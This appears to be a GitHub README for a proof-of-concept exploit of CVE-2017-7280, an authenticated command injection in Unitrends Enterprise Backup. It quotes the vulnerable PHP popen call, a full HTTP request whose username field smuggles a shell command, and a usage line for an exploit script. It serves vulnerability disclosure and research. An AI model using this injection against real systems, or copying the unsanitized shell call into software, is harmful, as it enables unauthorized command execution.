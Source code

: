 # CVE-2017-7280: Unitrends Enterprise Backup Solution Command Execution

## Information
**Description:** Allows authenticated command execution via command injection.  
**Versions Affected:** 8.X and below.  
**Researcher:** Dwight Hohnstein (https://twitter.com/djhohnstein)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/remote-code-execution-bug-hunting-chapter-2/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2017-7280  

## Proof-of-Concept Exploit
### Description
Setting the username as a system command like sleep 20 will execute when the OS goes to change password.

Vulnerable Code /var/www/html/recoveryconsole/system/password_change.php:
```
function change_system_password($user, $current_root_pass, $new_user_pass, &$msg) { $status = -1; $res = trim(shell_exec('echo $UID')); if ($res == 0) { // running as root, no sudo needed for passwd command $handle = popen("passwd --stdin $user", 'w'); fwrite($handle, "$new_user_pass\n"); $status = pclose($handle);
```

Vulnerable Request:
```
POST /recoveryconsole/bpl/password.php?type=list&rx=8898009&ver=9.0.0&gcv=0 HTTP/1.1 Host: 10.10.10.89 Connection: close Content-Length: 152 Origin: https://10.10.10.89 X-Requested-With: ShockwaveFlash/23.0.0.185 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36 Content-Type: application/x-www-form-urlencoded Accept: / DNT: 1 Referer: https://10.10.10.89/recoveryconsole/bpria/bin/bpria.swf?vsn=9.0.0 Accept-Encoding: gzip, deflate, br Accept-Language: en-US,en;q=0.8 Cookie: initial_tab_config=1; initial_tab_recover=2; SnapABugHistory=1#; _ga=GA1.4.400758861.1476511068; initial_tab_jobs=3; SnapABugRef=https%3A%2F%2F10.10.10.89%2Frecoveryconsole%2F%20; SnapABugVisit=12#1476513198

newpassword=unitrends2&auth=djA6ODkxNTJjYzYtNzdkYi00N2ZlLWFiMzEtNzJmMGVlZmU1MjkyOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA%3D%3D&password=unitrends1&user=touch /tmp/dwightowned;  
```
### Usage/Exploitation
`python CVE-2017-7280.py -u TARGET -U USER -P PASSWORD`  

### Screenshot
![Alt-text that shows up on hover](poc_image.png)